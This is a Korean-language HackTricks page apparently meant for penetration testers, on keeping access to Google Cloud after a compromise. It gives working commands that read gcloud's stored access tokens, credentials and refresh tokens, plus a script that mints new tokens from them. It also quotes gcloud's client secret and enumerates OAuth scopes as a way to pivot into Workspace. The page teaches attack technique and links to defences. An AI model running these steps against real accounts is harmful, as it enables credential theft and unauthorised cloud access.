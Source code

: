 # GCP - 비 서비스 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 제로에서 영웅까지 AWS 해킹을 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF 형식의 HackTricks를 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 기술을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **깃허브 저장소에 제출하세요.**

</details>

이러한 기술은 어떤 방식으로든 GCP 자격 증명 또는 GCP 환경에서 실행 중인 기계를 침투한 후 유용합니다.

## 토큰 탈취

### 인증된 사용자 토큰

사용자의 **현재 토큰**을 가져오려면 다음을 실행할 수 있습니다:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

이 페이지에서 **gcloud를 사용하여이 토큰을 직접 사용하는 방법**을 확인하십시오:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

새 액세스 토큰을 **생성하는 세부 정보를 얻으려면** 실행하십시오:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**`$HOME/.config/gcloud/application_default_credentials.json`** 및 **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**에서 **새로 고침 토큰**을 찾을 수도 있습니다.

**새로 고침 토큰**, 클라이언트 ID 및 클라이언트 시크릿으로 새로 고침된 액세스 토큰을 얻으려면 다음을 실행하십시오:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

새로 고침 토큰의 유효성은 **관리자** > **보안** > **Google Cloud 세션 제어**에서 관리할 수 있으며 기본적으로 16시간으로 설정되어 있지만 만료되지 않도록 설정할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 인증 흐름

`gcloud auth login`과 같은 것을 사용할 때의 인증 흐름은 브라우저에서 프롬프트를 열고 모든 스코프를 수락한 후 브라우저가 도구에서 열린 http 포트로 이러한 요청을 보낼 것입니다:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
그럼 gcloud는 상태와 코드를 사용하여 하드코딩된 `client_id`(`32555940559.apps.googleusercontent.com`) 및 **`client_secret`**(`ZmssLNjJy2998hD4CTg2ejr2`)를 사용하여 **최종 리프레시 토큰 데이터**를 가져올 것입니다.

{% hint style="danger" %}
로컬호스트와의 통신이 HTTP로 이루어지기 때문에 데이터를 가로채서 리프레시 토큰을 얻는 것이 가능하지만, 이 데이터는 한 번만 유효하므로 이는 쓸모가 없을 것입니다. 파일에서 리프레시 토큰을 읽는 것이 더 쉽습니다.
{% endhint %}

### OAuth 스코프

모든 Google 스코프를 [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes)에서 찾을 수 있거나 다음을 실행하여 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

**`gcloud`**를 사용하여 인증하는 응용 프로그램이 지원할 수 있는 범위를 볼 수 있습니다.
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
실행한 후에 이 앱이 다음 스코프를 지원하는지 확인되었습니다:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
앱이 **`drive`** 스코프를 지원하는 방법이 흥미로운데, 이는 사용자가 해당 스코프로 토큰을 생성하도록 강제하는 공격자가 있다면 GCP에서 Workspace로 승격할 수 있을 수 있습니다.

**이를 악용하는 방법을** [**여기에서 확인하세요**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### 서비스 계정

인증된 사용자와 마찬가지로 서비스 계정의 **개인 키 파일을 compromise**하면 원하는 만큼 액세스할 수 있습니다.\
그러나 서비스 계정의 **OAuth 토큰을 도난당하면** 더 흥미로울 수 있습니다. 기본적으로 이러한 토큰은 1시간 동안 유용하지만, **피해자가 개인 API 키를 삭제하더라도 OAuth 토큰은 만료될 때까지 유효**합니다.

### 메타데이터

명백히 GCP 환경에서 실행 중인 기계 내부에 있다면 해당 기계에 연결된 서비스 계정에 **메타데이터 엔드포인트에 연락하여 액세스**할 수 있습니다 (이 엔드포인트에서 액세스할 수 있는 OAuth 토큰은 일반적으로 스코프로 제한됩니다).

### 조치 방법

이러한 기술에 대한 일부 조치 방법은 [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)에서 설명되어 있습니다.

## 참고 자료

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)로부터 AWS 해킹을 제로부터 전문가까지 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 제출하세요.

</details>
